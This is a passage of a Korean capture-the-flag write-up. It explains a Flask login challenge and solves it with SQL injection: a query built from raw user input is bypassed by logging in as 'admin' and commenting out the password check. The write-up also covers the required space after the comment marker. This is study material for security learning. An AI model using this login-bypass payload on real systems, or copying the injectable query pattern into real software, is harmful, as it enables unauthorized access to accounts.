 |

|

### success()

---

```python
username = request.args.get("username", "Unknown")
flag = request.args.get("flag", "So.. what?")
return render_template("success.html", username=username, flag=flag)
```

**`username`**: username 파라미터가 제공되었다면 해당 값으로 반환, 제공되지 않았다면 “Unknown” 반환

**`flag`**: flag 파라미터가 제공되었다면 해당 값으로 반환, 제공되지 않았다면 “So.. what?” 반환

`success.html` 이 렌더링되면서 `username`과 `flag` 변수 전달

즉, **login()**에서 **"admin"**으로 로그인에 성공하면 `username`과 `flag`가 화면에 나타나게 됨

|

|

|

## 문제 풀이

### 방법 1

---

```sql
SELECT * FROM user WHERE username = '{username}' AND password = '{password}'
```

|

```sql
SELECT * FROM user WHERE username = 'admin' AND password = '{password}'
```

`username`이 **"admin"**이 되어야함

|

```sql
SELECT * FROM user WHERE username = 'admin' -- AND password = '{password}'
```

`username = 'admin'` 부분만 필요하므로 필요 없는 `password`는 주석 처리

주의해야 할 점이, 주석 처리를 하기 위해서는 주석 뒤에 최소 한 개의 공백이 존재해야함

